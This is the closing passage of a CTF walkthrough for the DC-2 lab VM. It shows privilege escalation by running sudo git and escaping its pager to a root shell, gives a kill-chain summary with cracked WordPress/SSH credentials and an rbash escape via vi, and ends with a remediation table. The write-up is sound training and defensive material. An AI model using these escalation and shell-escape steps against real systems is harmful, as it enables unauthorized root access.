*Screenshot:* 

---

## 10. Privilege Escalation — sudo git (GTFOBins)

### 10.1 Checking sudo rights

```bash
sudo -l
```

This revealed that `jerry` may run **`/usr/bin/git`** as **root** without a password.

*Screenshot:* 

### 10.2 Research

I had no prior knowledge of git's pager behaviour. Since `jerry` could run git as root, I researched **git on GTFOBins**, which documents that git pipes long output to a **pager (`less` by default)** that can execute shell commands via `!`. Because git runs under `sudo`, any shell spawned from that pager runs **as root**.

### 10.3 Exploitation

**First attempt** — the GTFOBins `PAGER=` one-liner was **blocked by sudo's environment policy**:

```bash
sudo PAGER='/bin/bash -c "exec bash 0<&1"' git -p help
# sudo: sorry, you are not allowed to set the following environment variables: PAGER
```

sudo's `env_reset` policy strips untrusted variables like `PAGER`, so this variant did not work on DC-2.

**Second attempt** — `sudo git -p help` alone also did not open a pager, because the usage text is short enough to print and exit without paging.

**Working method** — I used a git subcommand that produces enough output to *keep the pager open* (the git-config man page), then shelled out from inside the pager:

```bash
sudo git help config
```

At the spawned pager, I just typed `!/bin/bash` and pressed Enter. If this does not work for you, you can try typing `':'` first.

```
!/bin/bash
```

This spawned a shell running as **root**.

```bash
whoami     # root
```

*Screenshots:* 

 



---

## 11. Final Flag

With a root shell, I retrieved the final flag from `/root`:

```bash
cat /root/final-flag.txt
```

> **final flag:**
> ```
> Congratulatons!!!
>
> A special thanks to all those who sent me tweets
> and provided me with feedback - it's all greatly
> appreciated.
>
> If you enjoyed this CTF, send me a tweet via @DCAU7.
> ```

*Screenshot:* 

---

## 12. Full Kill Chain Summary

```
netdiscover / nmap
      │  (WordPress 4.7.10 @ dc-2:80, SSH @ 7744; add dc-2 to /etc/hosts)
      ▼
flag1 (on site)  →  "be cewl"
      │  cewl → custom wordlist
      ▼
wpscan user enum (tom, jerry)  +  cewl wordlist
      │  cracked: tom:parturient, jerry:adipiscing
      ▼
WordPress login  →  flag2  ("another entry point")
      ▼
SSH :7744 as tom  →  restricted shell (rbash)  →  flag3 (via vi)  ("su to jerry")
      ▼
vi escape (:set shell=/bin/bash :shell) + fix PATH  →  su jerry  →  flag4  ("git outta here")
      ▼
sudo -l (jerry may run git as root)  →  sudo git help config  →  !/bin/bash  →  ROOT
      ▼
final flag (/root)
```

---

## 13. Findings & Remediation

| # | Finding | Severity | Remediation |
|---|---|---|---|
| 1 | Weak, guessable WordPress passwords (crackable from site content via cewl) | **High** | Enforce strong, high-entropy passwords; deploy login rate-limiting / lockout (e.g. a WordPress security plugin). |
| 2 | WordPress user enumeration possible (wpscan) | Medium | Block user enumeration (disable `/?author=` redirects, REST user listing); use generic login errors. |
| 3 | Password reuse between WordPress and system (SSH) accounts | **High** | Separate application and OS credentials; never reuse passwords across services. |
| 4 | Restricted shell (rbash) escapable via `vi` | **High** | Remove interactive shell-spawning binaries from restricted users; use a properly locked-down shell/`ForceCommand`, and restrict `PATH` to a safe jail. |
| 5 | `jerry` may run `git` as root via sudo (GTFOBins RCE) | **Critical** | Remove `git` from sudoers; grant sudo only to specific, non-shelling commands following least privilege. |
| 6 | Outdated WordPress 4.7.10 | Medium | Keep WordPress core, themes, and plugins updated. |
| 7 | SSH on non-standard port 7744 (security through obscurity only) | Low | Port change is not a control; enforce key-based auth and disable password login. |

---

## 14. Tools I Used

- `netdiscover` — host discovery
- `nmap` — port/service/OS enumeration
- `gobuster` — directory/file enumeration
- `cewl` — custom wordlist generation from site content
- `wpscan` — WordPress user enumeration & password attack
- `ssh` — alternate entry point (port 7744)
- `vi` — reading files in, and escaping, the restricted shell
- `su` — lateral movement (tom → jerry)
- `sudo` + `git` (GTFOBins) — privilege escalation to root
- Reference: **GTFOBins** (git sudo/pager technique)

---

*End of report.*
